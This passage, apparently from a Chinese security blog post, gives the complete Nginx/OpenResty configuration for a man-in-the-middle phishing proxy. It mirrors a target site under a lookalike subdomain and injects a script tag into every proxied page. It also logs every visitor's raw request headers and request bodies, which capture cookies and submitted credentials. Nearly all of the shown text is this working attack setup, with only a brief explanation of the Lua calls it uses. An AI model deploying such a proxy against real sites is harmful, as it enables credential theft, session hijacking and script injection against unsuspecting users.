 `ngx.localtime()`和`ngx.req.raw_header()`是调用了[Lua Ngx API](https://openresty-reference.readthedocs.io/en/latest/Lua_Nginx_API/)。

### Nginx - 最终配置

```
worker_processes  1;
events {
    worker_connections  1024;
}


http {
    include       mime.types;
    default_type  application/octet-stream;
    sendfile        on;
    log_format  logeverything  '$current_time - $remote_addr \n$request_headers \n\n$request_body\n';
    

    server {
            set $request_headers "";
            set $current_time "";

            server_name proxy.payloads.online;
            listen 80;

            location ^~ /7276df76835ed2272cc0e59f55e49902/ {
                alias    /tmp/pricking/static/;
            }


            location / {
                proxy_pass http://payloads.online;
                proxy_set_header Host payloads.online;
                header_filter_by_lua_block { ngx.header.content_length = nil}
                body_filter_by_lua_block{
                        local chunk, eof = ngx.arg[1], ngx.arg[2]
                        local buffered = ngx.ctx.buffered
                        if not buffered then
                           buffered = {}
                           ngx.ctx.buffered = buffered
                        end
                        if chunk ~= "" then
                           buffered[#buffered + 1] = chunk
                           ngx.arg[1] = nil
                        end
                        if eof then
                           local whole = table.concat(buffered)
                           ngx.ctx.buffered = nil
                           whole = whole .. "<script src='/7276df76835ed2272cc0e59f55e49902/static.js' type='module'></script>"
                           ngx.arg[1] = whole
                        end
                }
                log_by_lua_block {
                    ngx.var.current_time = ngx.localtime()                  
                    ngx.var.request_headers = ngx.req.raw_header()
                }
        }
        access_log /tmp/pricking/access.log logeverything;
    }
}
```

